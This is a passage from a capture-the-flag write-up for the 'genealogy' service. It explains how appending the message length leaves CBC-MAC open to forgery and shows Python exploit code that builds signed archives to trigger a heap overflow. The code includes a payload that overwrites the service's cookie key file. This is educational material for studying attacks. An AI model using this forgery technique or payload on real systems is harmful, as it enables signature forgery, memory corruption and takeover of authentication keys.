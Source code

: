 This signature algorithm has some weaknesses if the message has a non-fixed length. See the following guide about that:

- https://blog.cryptographyengineering.com/2013/02/15/why-i-hate-cbc-mac/

However, our implementation has protection from it, because it appends the message length to the message before signing. At least, you can think that it works. Unfortunately, this protection is secure only **for prepending** the length, not **for appending** it:

- https://crypto.stackexchange.com/questions/11125/why-does-only-length-prepending-improve-the-security-of-cbc-mac/11152#11152

In other words, we can construct three messages `M1`, `M2`, `M3`, request to sign them, and later build the signature for another message (`M4`) which our service didn't sign. How does it work? Simple enough!

1. Choose `M1` randomly.
1. Choose `M2` randomly, but with the same length.
1. Build `M3` as `M2 + length(M2) + padding + <any random suffix>`
1. Request to sign all three messages, receive `S1` for `M1`, `S2` for `M2`, and `S3` for `M3`.
1. Congratulations! Now you know that `S3` is also the signature of `M4 = M1 + length(M1) + padding + <suffix>`, where `<suffix>` is equal to `<any random suffix>` everywhere except the first block. The first block should be xored by `S1 ^ S2` (because it's how CBC works).

=== Put it all together

The end is near.

We need to construct (and sign) such three trees, which will get to us such archives `M1`, `M2` and `M3`
which satisfies statements from the previous section. Moreover, built `M4` should lead to heap buffer overflow described above.

Fortunately, there is a way to do it. You can see the code of tree generating in [genealogy.sploit.py#L90-L157](https://github.com/HITB-CyberWeek/proctf-2021/blob/main/sploits/genealogy/genealogy.sploit.py#L90-L157).

The first tree is almost empty, see its generator below. 
It will be described later why `PAYLOAD` is inserted into the `owners` list, but now this list must have length 60 (which is maximum for the `owners` list):

```(python)
PAYLOAD = b"echo -n a > ./keys/cookie.key"

def generate_first_archive(endpoint: str) -> tuple[int, bytes, bytes]:
    login = generate_random_string()
    password = generate_random_string()

    # 60 is max size of owners list
    payload = generate_payload(60)

    # 0x257 is desired total length, 173 is a total size of other fields (may change if you change PAYLOAD)
    description_length = 0x257 - 173

    with GenealogyClient(endpoint) as client:
        user_id = client.create_user(login, password)
        client.login(login, password)
        # Put enough chunks to tcache (2 will be enough)
        grandparent = client.create_person("", 1, 2, None, None)
        parent = client.create_person("", 1, 2, grandparent, None)
        root = client.create_person("", 1, 2, parent, None)
        client.create_tree("", "x" * description_length, root)

        client.update_owners(payload)

        archive_with_signature = client.download_tree_archive()

    archive, signature = extract_archive_and_signature(archive_with_signature)
```